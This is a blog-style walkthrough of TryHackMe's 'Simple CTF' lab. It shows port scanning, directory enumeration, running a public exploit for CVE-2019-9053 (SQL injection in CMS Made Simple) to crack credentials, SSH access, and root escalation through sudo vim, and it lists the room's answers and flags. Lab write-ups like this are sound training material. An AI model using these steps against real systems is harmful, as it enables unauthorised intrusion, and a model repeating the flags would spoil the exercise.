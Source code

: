 ```yaml
---
layout: post
title: Simple CTF
date: 2022-12-30 12:00 +0700
categories: [THM, easy]
---
```


### Introduction

[Simple CTF] is an easy CTF on TryHackMe that showcases scanning and enumeration, research, exploitation, and privilege escalation wich are some basics skills needed in CTF.

![simple](https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png)



---

Let's start scanning the machine with nmap.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![Scan](/images/THM/simplectf/Captura.PNG)

We can see there are 3 ports open, 21(ftp), 80(http), 2222(ssh).

- How many services are running under port 1000?
>Answer: 2

- What is running on the higher port?
>Answer: ssh

If we move to the web page, we can see the Apache2 Default page.

![Web](/images/THM/simplectf/Captura2.PNG)

Let's scan the page with **gobuster**.

```sh
gobuster dir -u <URL> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t <threads> -x <extensions>
```

![WebScan](/images/THM/simplectf/Captura3.PNG)

We can see there are 3 results

Let's move on to every page


![robots](/images/THM/simplectf/Captura4.PNG)

In **robots.txt**  there are nothing interesting but in the **simple** directory we can see a web page with the CMS **Made simple**.


![CMS](/images/THM/simplectf/Captura5.PNG)

If we look the version in the footer, we can see that the page is in the version 2.2.8.

![Version](/images/THM/simplectf/Captura6.PNG)

So making a little search about the cms and the version, we can see there is an CVE and one [exploit] for it.


![cve](/images/THM/simplectf/Captura7.PNG)

- What's the CVE you're using against the application?
>Answer: CVE-2019-9053

The CVE explains there is an issue and is it possible with the News module, through a crafted URL, to achieve unauthenticated blind time-based **SQL injection** via the m1_idlist parameter.

- To what kind of vulnerability is the application vulnerable?
>Answer: sqli

```sh
python2 46635.py
```

![exploit](/images/THM/simplectf/Captura8.PNG)

```sh
python2 46635.py -u <URL> --crack -w /usr/share/wordlists/rockyou.txt
```

![exploit2](/images/THM/simplectf/Captura9.PNG)

Let's run it and see what we get.

![results](/images/THM/simplectf/Captura10.PNG)

Et voila! We already have the credentials!

- What's the password?
>Answer: secret

Time to get into the machine with the credentials we've found.

```sh
ssh mitch@<IP> -p 2222

python -c 'import pty;pty.spawn("<shell>")'
```

![ssh](/images/THM/simplectf/Captura11.PNG)

- Where can you login with the details obtained?
>Answer: ssh

If we show the actual directory, we can see there is a file called user.txt. In it, we can found the user flag.

```sh
ls
cat user.txt
```

![userflag](/images/THM/simplectf/Captura12.PNG)

- What's the user flag?
>Answer: G00d j0b, keep up!

For see if there is other user, we list the /home/ directory, and we found the user sunbath.

```sh
ls /home/
```

![user](/images/THM/simplectf/Captura13.PNG)

- Is there any other user in the home directory? What's its name?
>Answer: sunbath

To finish the machine, we need to do the privileges escalation, and if we run **sudo -l** we can see that the **vim** binary can be executed with root privileges without password.

Knowing this, we can go to [GTFO] and search how to make this escalation with vim binary.

```sh
sudo -l
sudo vim -c ':!<shell>'
```

![sudo](/images/THM/simplectf/Captura14.PNG)

- What can you leverage to spawn a privileged shell?
>Answer: vim

```sh
cd /root
ls
cat root.txt
```

![rootflag](/images/THM/simplectf/Captura15.PNG)

- What's the root flag?
>Answer: W3ll d0n3. You made it!

 [Simple CTF]: https://tryhackme.com/room/easyctf
 [GTFO]:https://gtfobins.github.io/
 [exploit]:https://www.exploit-db.com/exploits/46635
